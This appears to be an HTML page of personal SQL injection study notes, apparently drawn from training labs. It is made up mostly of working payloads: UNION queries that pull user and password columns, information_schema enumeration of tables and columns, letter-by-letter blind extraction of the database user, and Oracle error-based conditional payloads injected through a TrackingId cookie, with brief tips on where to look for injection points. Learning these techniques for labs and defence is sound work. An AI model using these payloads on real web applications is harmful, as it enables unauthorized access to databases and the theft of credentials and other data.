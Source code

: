 <code>' UNION SELECT user, pass FROM Accounts WHERE 'a'='a</code>

<code>1 AND 1=2 UNION SELECT table_name, column_name, 1 FROM information_schema.columns

</code>

<h3>finding injection points</h3>
<p>test all user supplied input</p>
<p>GET, POST, HTTP Headers - User-Agent, Cookie, Accept</p>

<code>select substring(user() , 1, 1) = 'r';</code>
<code>' or substr (user(), 1, 1)= 'a</code>
<code>' or substr (user(), 1, 1)= 'b</code>
<p>used to bruteforce user by asking whats the username letter by letter - db will answer 1 or 0</p>

<img src="/assets/images/unionsql.png" alt="" /><br>


<code>' UNION SELECT user(); -- -';</code>
<p>third dash is to prevent browsers from deleting the trailing space</p>

<code>0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'</code>
<p>sqli_one = db</p>
<code>0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'</code>
<p>staff_users = table</p>

<h4>Blind</h4>
<code>admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';</code><br>
<code>admin123' UNION SELECT 1,2,3 where database() like 's%';--</code><br>
<code>admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--</code><br>
<code>admin123' UNION SELECT 1,2,3 from users where username like 'a%</code><br>
<h5>oracle</h5>
<code>TrackingId=xyz'||(SELECT '' FROM dual)||'---test on cookie header TrackingId is a cookie </code>
<p>use Case --- Select case when (1=1) then _ else _ end from dual/users</p>
<p>'||(SELECT Case When (1=1) then to_char(1/0) else '' end FROM dual)||'</p>
<P>'||(SELECT Case When (1=1) then to_char(1/0) else '' end FROM users where username='administrator') ||'</P>